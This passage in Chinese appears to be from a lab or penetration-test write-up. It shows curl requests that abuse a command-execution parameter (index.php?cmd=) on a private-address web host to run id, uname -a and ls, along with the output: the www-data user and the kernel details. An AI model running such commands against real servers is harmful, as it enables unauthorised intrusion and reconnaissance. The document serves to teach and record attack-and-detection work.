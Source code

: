   ```bash
  # 确定当前用户和权限
  curl "http://10.37.133.3:8630/index.php?cmd=id"
  ```

  返回结果显示为 www-data 用户:

  ```
  index.php?cmd=ls /tmpuid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

  ![1748017681838](image/第一层两靶标攻击与利用检测/1748017681838.png)

  ```bash
  # 查看系统信息
  curl "http://10.37.133.3:8630/index.php?cmd=uname%20-a"
  ```

  返回结果显示系统信息:

  ```
  index.php?cmd=ls /tmpLinux c93755678f6c 5.10.0-26-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64 GNU/Linux
  ```

  ![1748017785746](image/第一层两靶标攻击与利用检测/1748017785746.png)

  ```bash
  # 查看当前目录结构
  curl "http://10.37.133.3:8630/index.php?cmd=ls%20-la%20/"
  ```

  返回结果显示根目录结构:
